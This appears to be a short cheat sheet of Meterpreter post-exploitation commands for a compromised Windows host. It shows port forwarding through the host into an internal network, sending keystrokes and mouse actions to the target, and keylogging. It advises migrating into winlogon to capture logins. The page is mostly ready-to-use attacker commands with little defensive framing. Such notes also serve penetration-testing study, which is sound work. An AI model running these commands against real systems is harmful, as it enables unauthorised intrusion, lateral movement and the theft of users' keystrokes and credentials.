 #### Port Forwarding

A meterpreter session can be setup to forward a port to the internal network through the session.

```bash
# Show help menu
portfwd -h

# Create a port forwad from localhost 3389 to 3389 on the remote server through the compromised host
portfwd add -l 3389 -p 3389 -r 172.16.216.5
# Options
-l	# Local port to forward from
-p	# Remote port to forward to
-r	# Remote host to forward to
```

## Interacting with a target

Note: You need to migrate to Explorer to send these

```bash
# Send keystrokes verbatim
keyboard_send "this is what is sent"

# Send keystrokes by keycode (check table for codes), needed for special keys
# I guess press is an up/down while `up` is the key lifted up and `down` is the key held down (like with holding alt)
keyevent [press|up|down] <keycode>

# Interact with mouse
# Usage: mouse action (move, click, up, down, rightclick, rightup, rightdown, doubleclick)
#       mouse [x] [y] (click)
#       mouse [action] [x] [y]
#  e.g: 
mouse click
mouse rightclick 1 1
mouse move 640 480

# Click the start menu (estimate, use a large second value to move it to the bottom of the screen)
mouse click 0 1000
```

## Keylogging

NOTE:  You want to migrate to something that has access to what you want to keylog, like `explorer` for regular stuff or `winlogon` for logins.  Migrating to explorer will likely de-elevate privileges.

```bash
pgrep explorer
migrate <PID>
keyscan_start
keyscan_dump
```
